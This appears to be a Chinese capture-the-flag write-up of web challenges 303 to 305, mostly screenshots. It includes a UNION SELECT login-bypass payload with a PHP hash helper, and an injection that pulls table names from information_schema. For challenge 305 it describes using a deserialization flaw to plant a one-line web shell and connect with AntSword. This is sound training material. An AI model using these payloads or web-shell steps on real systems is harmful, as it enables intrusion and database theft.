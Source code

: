 Payload：
```php
<?php

$str="1";
$a=md5(md5($str.md5(base64_encode("sds")))."sds");
echo $a;

?>
```
> ' union select 'd9c77c4e454869d5d8da3b4be79694d3'%23&userpwd=1


---
# 303-304
admin,admin登录

![](https://img-blog.csdnimg.cn/20210413223046206.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
闭合第一个单引号，`伪造 address` 进行注入
```
1',sds_address =(select group_concat(table_name) from information_schema.tables where table_schema=database())#
```
![](https://img-blog.csdnimg.cn/20210413223132852.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210413223139236.png#pic_center)

---
# 305
看到对每个参数都有waf

![](https://img-blog.csdnimg.cn/20210413223211361.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
waf:

![](https://img-blog.csdnimg.cn/20210413223223991.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Sql不可能了

Class.php存在危险函数：

![](https://img-blog.csdnimg.cn/20210413223240257.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
存在反序列化：

![](https://img-blog.csdnimg.cn/20210413223254751.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
一句话反序列化编码一下：

![](https://img-blog.csdnimg.cn/20210413223355688.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
蚁剑连接数据库：

![](https://img-blog.csdnimg.cn/20210413223425949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210413223437762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---